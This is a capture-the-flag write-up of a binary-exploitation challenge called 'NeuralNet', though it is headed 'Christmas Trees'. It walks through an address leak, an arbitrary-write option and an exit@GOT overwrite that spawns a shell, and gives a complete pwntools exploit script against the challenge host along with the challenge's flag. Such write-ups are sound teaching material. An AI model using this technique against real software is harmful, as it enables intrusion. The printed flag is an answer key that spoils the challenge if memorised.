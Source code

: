 # Christmas Trees - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/NeuralNet.gif)

---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```

![Alt text](img/2.png)

```bash
$ checksec NeuralNet
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

![Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

![Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

![Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

![Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Leak the Binary Base Address

At startup, the program prints the address of the `predict_outcome` function.
We use this leak to calculate the **base address** of the binary.

### Step 2: Overwrite `exit@GOT`

Using the "Neural Intervention" option (option 3), we perform an **arbitrary write** to overwrite the **GOT entry for `exit()`** with the address of the hidden `unlock_secret_research_data()` function.

### Step 3: Trigger the Payload

We select menu option 4 (Exit), which causes the program to call `exit()`.
Because we overwrote its GOT entry, control is redirected to `unlock_secret_research_data()`, which executes `system("/bin/sh")`.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template NeuralNet --host ctf.mf.grsu.by --port 9076
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'NeuralNet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9076)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# RUNPATH:    b'./'
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Prediction module address (predict_outcome): ')
exe.address = int(io.recvline().strip(),16) - exe.symbols['predict_outcome']
log.success(f"exe.address : {hex(exe.address)}")

exit_got = exe.got['exit']
ret2win = exe.symbols['unlock_secret_research_data']
io.sendline(b'3')
io.sendline(hex(exit_got).encode())
io.sendline(hex(ret2win).encode())
io.sendline(b'4')
io.sendline(b'cat flag.txt')
io.recvuntil(b"You've gained root access to the main dataset server.")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : {flag.decode()}")

```

---

## Exploit Output

![Alt text](img/8.png)

---

## Vulnerability Summary

- The binary **leaks a code address** (`predict_outcome`) on startup, allowing us to **calculate the binary base address**.
- The **"Neural Intervention"** feature provides an **arbitrary write primitive** via user-controlled memory writes.
- By overwriting the **GOT entry of `exit()`** with the address of `unlock_secret_research_data()`, we can redirect execution and spawn a shell.

---

## Flag

```
grodno{p3R3D08UchIL_n3ir053t_prY4M0_v_G0T}
```
